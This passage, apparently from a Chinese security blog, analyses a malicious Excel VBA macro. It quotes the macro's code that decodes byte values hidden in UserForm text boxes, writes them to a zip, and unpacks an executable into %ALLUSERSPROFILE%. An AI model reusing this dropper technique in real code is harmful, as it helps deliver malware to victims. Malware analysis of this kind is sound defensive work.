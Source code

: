 通过<br>
path_Aldi_file = fldr_Aldi_name &amp; file_Aldi_name &amp; “.exe”<br>
声明一个path路径，路径应该为：%ALLUSERSPROFILE%Tdlawisrlbwrarhsa.exe

[![](https://p3.ssl.qhimg.com/t01f02cee5734455333.png)](https://p3.ssl.qhimg.com/t01f02cee5734455333.png)

接下来，程序通过Application.OperatingSystem获取当前操作系统的版本并根据不同的情况进行不同的处理，如果当前系统版本为6.02或6.03，程序将获取UserForm1.TextBox2.Text的信息赋值给ar1Aldi。否则获取UserForm1.TextBox1.Text的内容赋值给ar1Aldi。

```
If InStr(Application.OperatingSystem, "6.02") &gt; 0 Or InStr(Application.OperatingSystem, "6.03") &gt; 0 Then
        ar1Aldi = Split(UserForm1.TextBox2.Text, ":")
    Else
        ar1Aldi = Split(UserForm1.TextBox1.Text, ":")
    End If
```

关于获取操作系统版本信息的文档，可在[这里](https://docs.microsoft.com/zh-cn/office/vba/api/excel.application.operatingsystem)找到。

操作系统判断完成之后，程序就会将我们之前看到的窗体中的数据赋值给ar1Aldi变量：

[![](https://p2.ssl.qhimg.com/t01f22690dbe6526e1e.png)](https://p2.ssl.qhimg.com/t01f22690dbe6526e1e.png)

然后通过一个for each循环对刚才赋值的ar1Aldi进行解密：

```
For Each vl In ar1Aldi
        ReDim Preserve btsAldi(linAldi)

        btsAldi(linAldi) = CByte(vl)

        linAldi = linAldi + 1
    Next
```

然后我们可以直接光标定位到循环后面的代码，按Ctrl + F8 跑完循环

[![](https://p0.ssl.qhimg.com/t01d80dc3673bf8ad2a.png)](https://p0.ssl.qhimg.com/t01d80dc3673bf8ad2a.png)

这里我们可以看到，程序会通过二进制流的方式打开zip_Aldi_file，也就是先前定义的zip文件，然后将刚才的btsAldi进行写入。

```
Open zip_Aldi_file For Binary Access Write As #2
         Put #2, , btsAldi
    Close #2
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01a938887ee337a5ad.png)

写入成功之后，程序会尝试将该zip包进行解压。

```
If Len(Dir(path_Aldi_file)) = 0 Then
        Call unAldizip(zip_Aldi_file, fldr_Aldi_name)
    End If
```
